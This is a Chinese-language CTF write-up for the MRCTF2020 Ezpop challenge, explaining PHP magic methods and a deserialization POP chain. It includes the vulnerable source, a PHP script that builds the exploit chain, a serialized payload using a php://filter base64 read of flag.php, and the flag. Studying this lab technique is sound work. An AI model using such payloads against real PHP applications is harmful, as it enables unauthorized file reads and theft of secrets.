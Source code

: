 ```yaml
---
title: 由MRCTF2020学习反序列化POP链
date: 2020-03-29
image: 
description: 
categories: 
- note
tags:
- PHP反序列化
---
```

复现地址：[BUUOJ](https://buuoj.cn/challenges#[MRCTF2020]Ezpop)

打开题目即送源码：[MRCTF_ezpop](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/MRCTF2020/MRCTF_ezpop.zip)

先说PHP的一些魔术方法：

```
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问（或不存在）的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```

有了这些知识后，我们再来分析源码；

```
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5
%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

 

我们可以看到，在`Modifier`类里面有一个include函数，可以通过这个包含flag.php

```
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}
```

当我们尝试将对象调用为函数时，`__invoke()`就会自动包含 `$var`

所以，我们又看到了`Test`类里面：

```
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

当我们访问`Test`类里面一个不可见或者不存在的属性时，`__get()`自动以函数的方式调用`$p`;

那么，源码里面那里能够访问一个属性呢？

`Show`类：

```
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

它可以访问自身属性`str`的成员`source`

如果我们把`str`属性new一个`Test`，但是Test里面并没有source属性，

那么我们new的Test就会以函数的方式调用`$p`那么如果`$p`又是一个`Modifier`类，就会自动包含$var指向的页面。

所以，我们构造的思路是：

```
$poc = new Show; 
$poc->source = new Show; 
$poc->source->str = new Test; 
$poc->source->str->p = new Modifier;
```

playload：

```
<?php
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

$poc = new Show;
$poc->source = new Show;
$poc->source->str = new Test;
$poc->source->str->p = new Modifier;
echo serialize($poc);
```

解释一下：

```
$poc->source = new Show;
//为什么要new show两次？
//触发__toString()，source被第一层show当作字符串，于是访问source->str->source,也就是Test里面的source(不存在)，触发__get
$poc->source->str = new Test;
//$poc->source->str->source（Test->source）不存在，触发__get
```

运行脚本，得到：（注意：Modifier类的protect属性注入需要加%00）

```
O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"%00*%00var";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}s:3:"str";N;}
```

 

GET传值即获flag.php

MRCTF{1892c0f7-3c71-431f-a991-7414ca1ea339}